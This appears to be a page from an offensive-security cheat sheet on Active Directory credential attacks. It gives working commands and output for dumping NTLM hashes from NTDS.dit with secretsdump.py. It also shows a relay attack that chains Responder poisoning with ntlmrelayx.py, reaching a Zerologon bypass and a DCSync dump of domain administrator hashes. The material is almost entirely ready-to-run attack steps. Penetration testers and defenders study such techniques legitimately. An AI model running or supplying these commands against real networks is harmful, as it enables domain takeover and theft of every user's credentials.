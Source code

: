 ### Extract accounts from NTDS.dit

Also check [NTDS.dit Dump&Extract]({{< ref "ntds-dump" >}}).

Required files:

* NTDS.dit (`C:\Windows\NTDS\ntds.dit`)
* SYSTEM (`C:\Windows\System32\config\SYSTEM`)

```plain
$ secretsdump.py -system SYSTEM -ntds NTDS.dit -hashes lmhash:nthash LOCAL -outputfile ntlm-extract -just-dc-ntlm -user-status -history
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xa78f11b1234567893f2b6ea8613764
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 640afd6c9912345678977329f09
[*] Reading and decrypting hashes from ntds.dit
john_do:19530:aad3b435b51404eeaad3b435b51404ee:6ed6a61234567898f78076f844::: (status=Enabled)
john_do_adm:19530:aad3b435b51404eeaad3b435b51404ee:2b311d396123456789f280077beee::: (status=Disabled)
```

### NTLMrelayx.py

For every connection received, this module will try to relay that connection
to specified target(s) system or (by default) the original client

Start Responder.py and turn off HTTP and SMB server. Also start [PCredz]({{< ref "pcredz" >}}) in listening mode (`sudo python3 Pcredz -i eth0`).

```plain
$ sudo python3 Responder.py -I enp0s31f6
[...SNIP...]
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
   WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
[...SNIP...]
```

Start ntlmrelayx.py with the target system in place.

```plain
$ sudo ntlmrelayx.py -t DCSYNC://10.10.10.10 -smb2support -socks
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation
[...SNIP...]
[*] Servers started, waiting for connections
[*] SMBD-Thread-3: Connection from offsec/ADMINISTRATOR@10.10.10.11 controlled, attacking target dcsync://10.10.10.10
[*] Connecting to 10.10.10.10 NETLOGON service
[*] Netlogon Auth OK, successfully bypassed autentication using Zerologon after 1 attempts!
[*] offsec\Administrator successfully validated through NETLOGON
[*] NTLM Sign/seal key: cf65d6660ec15d940f687bde79572094[...SNIP...]
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
[...SNIP...]
```
